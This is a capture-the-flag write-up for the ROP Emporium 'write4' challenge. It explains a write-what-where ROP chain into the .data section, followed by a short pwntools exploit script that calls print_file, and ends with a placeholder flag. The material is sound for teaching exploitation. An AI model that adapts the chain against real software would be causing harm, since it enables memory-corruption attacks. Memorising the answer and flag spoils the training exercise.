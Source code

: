 # Write4
### 📄 Description

### Cord cut
Our favourite string "/bin/cat flag.txt" is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

### Differences
Things have been rearranged a little for this challenge; the printing logic has been moved into a separate library. The stack smash also takes place in a function within that library, but don't worry, this will have no effect on your ROP chain. A PLT entry for a function named `print_file()` exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

### Read/Write
The important thing to realise is that ROP is just a form of arbitrary code execution and if we're creative we can leverage it to do things like write to or read from memory. The question is what mechanism are we going to use to solve this problem, is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as `mov [reg], reg`.

### What/Where
Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose. Consider how much space each section might give you to work with and whether corrupting the information stored at these locations will cause you problems later if you need some kind of stability from this binary.

### Decisions, decisions
Once you've figured out how to write your string into memory and where to write it, go ahead and call `print_file()` with its location as your only argument. 

## 🔑 Solution
The description tells us what to do. We hava a symbol called `usefulGadgets` that contains a trivial write-what-where. We can use `__libc_csu_init+96` in order to initialize the required registers (`r14` and `r15`). Last thing we miss is finding a place where we can write the required string flag.txt and read it back when calling `print_file`. A good candidate is the `.data` section of the ELF because it's both readable and writable.

```python
from pwn import *

context.binary = "./write4"
r = ROP(context.binary)
p = process()
dst = context.binary.get_section_by_name(".data").header.sh_addr
r(r14=dst, r15=b"flag.txt")
r.usefulGadgets()
r.print_file(dst)
print(r.dump())
p.send(b"A" * 40 + r.chain())
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag
```plain
ROPE{a_placeholder_32byte_flag!}
```